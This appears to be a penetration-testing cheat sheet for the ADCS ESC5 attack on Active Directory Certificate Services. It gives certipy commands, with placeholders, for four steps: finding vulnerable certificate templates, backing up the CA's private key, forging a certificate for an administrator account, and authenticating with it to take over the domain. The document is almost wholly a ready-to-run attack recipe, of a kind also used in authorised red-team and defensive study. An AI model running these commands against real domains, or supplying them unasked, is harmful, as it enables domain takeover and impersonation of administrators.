 # ADCS ESC5 (Use Powershell/Powerview to modify AD-Objects)

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
### When inspecting, look for permissions allowing non-administrative users, 
### or overly broad groups (like "Authenticated Users" or "Domain Users"), to modify these objects or their critical attributes (e.g., WriteProperty on certificateThumbprint for an object in AIA, 
### or WriteProperty on msPKI-Certificates for the NTAuthCertificates store).
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Dump CA Key
### These steps assume the CA's private key has already been compromised and exported to a .pfx file, potentially as an outcome of an advanced ESC5 attack or another CA compromise method like ESC7 or stealing a backup
```
certipy ca -u '<privileged_username>'@<domain>' -p '<password>' -ns '<NS_SERVER>' -target '<CA_FQDN>' -config '<CA_FQDN>\<CA_CONFIG_STRING>' -backup
```

## 3. Forge Golden Ticket
```
certipy forge -ca-pfx '<CA_PFX>.pfx' -upn '<ADMIN_USER>@<domain>' -sid '<ADMIN_SID>' -crl 'ldap:///'
```

## 4. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
